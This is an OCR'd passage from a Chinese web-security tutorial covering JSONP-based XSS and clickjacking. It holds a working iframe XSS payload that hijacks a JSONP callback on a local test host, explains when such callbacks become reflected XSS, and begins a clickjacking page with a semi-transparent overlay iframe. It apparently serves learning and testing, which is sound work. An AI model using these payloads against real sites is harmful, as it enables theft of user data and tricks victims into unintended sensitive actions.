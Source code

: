 ```html
        src="javascript:'<script>function testname(data){alert(JSON.stringify(data));}</script><script src=http://127.0.0.1:3000/js_xss/test.php?callback=testname&name=admin></script>'"
        frameborder="0">
    </iframe>
</body>

</html>
```

工具
https://github.com/yuebusao/jsonp-burp-killer

<h2><center>JSONP型xss</center></h2>
传入：?callback=hello的时候，页面上就会出现以hello开头的一串数据，这不就是吃什么吐什么吗？那么这里就可能造成XSS

条件：
当数据包的默认content-type为text/html时，那么这个点就会触发反射型XSS，值得一提的是，PHP默认content-type就是text/html，所以可以对PHP进一步关注

经测试后发现application/json、text/json、application/javascript、text/javascript等都不触发XSS

# 点击劫持漏洞

<h2><center>介绍-原理说明</center></h2>

点击劫持是一种非常简单的漏洞，它的意思就是说，我们跳转到某个页面，但是在这个页面上**覆盖了攻击者自定义的一个页面**（使用iframe加载原截面），受害者看到的页面是被覆盖后的页面，这个页面上有些可供点击的功能点。**受害人点击这些功能点的时候，殊不知实际上点击的是原来的页面上的某些点，因此当原界面上有些敏感操作的按钮的时候**（比如删除用户、新增用户、关注投币收藏等类似的功能），就会被触发。这就是点击劫持。

### payload
```html
<!DOCTYPE HTML>

<html>

<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />

<head>
    <title>点击劫持</title>
    <style>
        html,body,iframe {
            display: block;
            height: 100%;
            width: 100%;
            margin: 0;
            padding: 0;
            border: none;
        }
        iframe {
            opacity: 0.5;
            filter: alpha(opacity=0);
            position: absolute;
            z-index: 2;
        } 
        button {
            position: absolute;
            top: 450px;
            left: 850px;
            z-index: 1;
            width: 72px;
            height: 26px;
        }

    </style>
</head>
```